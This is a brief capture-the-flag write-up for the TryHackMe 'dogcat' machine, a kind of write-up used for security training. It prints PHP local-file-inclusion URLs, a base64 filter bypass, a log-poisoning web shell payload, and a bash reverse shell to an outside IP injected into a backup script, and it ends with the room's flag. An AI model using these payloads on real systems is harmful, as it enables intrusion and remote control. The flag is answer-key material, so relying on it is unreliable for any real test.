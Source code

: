 # dogcat tryhackme writeups

http://10.10.169.61/?view=dog
http://10.10.169.61/?view=cat



http://10.10.169.61/?view=../../dog.php
```
Warning: include(../../dog.php.php): failed to open stream: No such file or directory in /var/www/html/index.php on line 24

Warning: include(): Failed opening '../../dog.php.php' for inclusion (include_path='.:/usr/local/lib/php') in /var/www/html/index.php on line 24
```

filter bypass 
`php://filter/read=convert.base64-encode/resource=`


http://10.10.169.61/?view=php://filter/read=convert.base64-encode/resource=./dog/../../../../var/www/html/index

```
curl -i -v http://10.10.169.61/?view=./dog -A "<?php system('ls /');?>"
-i response
-v vervbose
-A user-agent
```

or  better `<?php system($_GET['cmd']); ?>`

amazing ctf dogcat, let's resume:

-php LFI
-bypass filter base64 wrapper
-log poisonning
-then

 I host a php-reverse shell on my machine, I downloaded it
on the box via curl after that I have a shell, I found the 1st
flag in the webdir, and the second one by seeing the dir before
to get into the main webdir, I mean /var/www/html, after the 3rd
I got it,by root the machine just exploit `env` binary with sudo priv
on gtfobins website, and the 4th flag I got it out of the box(container) by
setting a second shell, here the content of the file I used to get into the
container
```
echo "#!/bin/bash" > /opt/backups/backup.sh
echo "/bin/bash -c 'bash -i >& /dev/tcp/10.18.90.251/8889 0>&1'" >> /opt/backups/backup.sh
```
, this file, you can find it in opt dir. AND HERE THE FLAG
`THM{esc4l4tions_on_esc4l4tions_on_esc4l4tions_7a52b17dba6ebb0dc38bc1049bcba02d}`
